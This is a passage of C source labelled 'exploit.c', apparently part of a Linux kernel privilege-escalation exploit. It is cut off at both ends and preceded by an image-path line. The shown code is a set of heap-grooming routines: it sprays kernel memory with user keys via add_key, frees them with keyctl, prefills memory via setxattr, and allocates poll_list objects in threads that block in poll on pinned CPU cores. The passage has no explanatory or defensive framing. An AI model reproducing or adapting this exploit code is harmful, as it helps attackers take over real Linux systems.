 ```exploit.c
  ((ulong*)data)[0] = _alloc_key_prefill_ulong_val;
  setxattr("/home/user/.bashrc", "user.x", data, 32, XATTR_CREATE);
}
void _alloc_key_prefill_null(void) {
  _alloc_key_prefill_ulong_val = 0;
  _alloc_key_prefill_ulong();
}
void alloc_key(char *payload, int size, void (*prefill)(void)) {
  static char *desc = NULL;
  if (desc == NULL) desc = calloc(1, 0x1000);

  sprintf(desc, "key_%d", num_keys);
  if (prefill != NULL) prefill();
  keys[num_keys] = add_key("user", desc, payload, size, KEY_SPEC_PROCESS_KEYRING);
  if (keys[num_keys] < 0) errExit("alloc_key");
  num_keys++;
}
void spray_keys(int num, char c) {
  static char *payload = NULL;
  if (payload == NULL) payload = calloc(1, 0x1000);
  char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
  memset(key_payload, c, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);

  for (int ix = 0; ix != num; ++ix) alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_null);
}
void free_key(key_serial_t key) {
  if (keyctl_revoke(key) != 0) errExit("keyctl_revoke");
  if (keyctl_unlink(key, KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
  --num_keys;
}

struct alloc_poll_list_t {
  int fd;
  int id;
  int num_size;
  int timeout_ms;
};
void* alloc_poll_list(void *_arg) {
  struct pollfd fds[NUM_POLLFD];
  struct alloc_poll_list_t *arg = (struct alloc_poll_list_t *)_arg;
  assert(arg->fd >= 2);

  for (int ix = 0; ix != arg->num_size; ++ix) {
    fds[ix].fd = arg->fd;
    fds[ix].events = POLLERR;
  }
  pthread_mutex_lock(&mutex);
    ++num_threads;
  pthread_mutex_unlock(&mutex);

  thread_assign_to_core(0);
  if (poll(fds, arg->num_size, arg->timeout_ms) != 0) errExit("poll");

  pthread_mutex_lock(&mutex);
    --num_threads;
  pthread_mutex_unlock(&mutex);

  if (neverend) {
    thread_assign_to_core(2);
    while(neverend);
  }

```